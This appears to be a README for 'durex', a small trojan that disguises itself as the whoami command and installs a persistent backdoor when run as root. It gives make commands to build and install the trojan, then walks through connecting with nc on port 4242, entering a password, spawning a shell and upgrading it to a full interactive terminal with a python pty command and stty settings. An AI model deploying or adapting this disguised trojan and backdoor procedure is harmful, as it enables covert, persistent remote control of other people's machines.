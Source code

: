 # durex

A really simple trojan, disguised as whoami
- installs a backdoor when launched as root
- backdoor is accessible with `nc <INFECTED_MACHINE_IP> 4242`
- rebooting doesn't remove the backdoor

## Usage

```bash
# build durex
make

# install durex
make install

# check installation
make check

# uninstall backdoor
make reset

# launch and install backdoor
sudo ./durex

# launch and do nothing
./durex
```

## Connecting to the backdoor

```bash
# connect with nc
nc localhost 4242

# input password (unicorn emoji)
🦄

# launch shell
shell

# enable xterm features
python  -c "import pty;pty.spawn('/bin/bash')"
^Z
export term=XTERM
stty raw -echo; fg
```

## Refs

* [systemd service](https://linuxconfig.org/how-to-write-a-simple-systemd-service)
* [easy systemd](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)
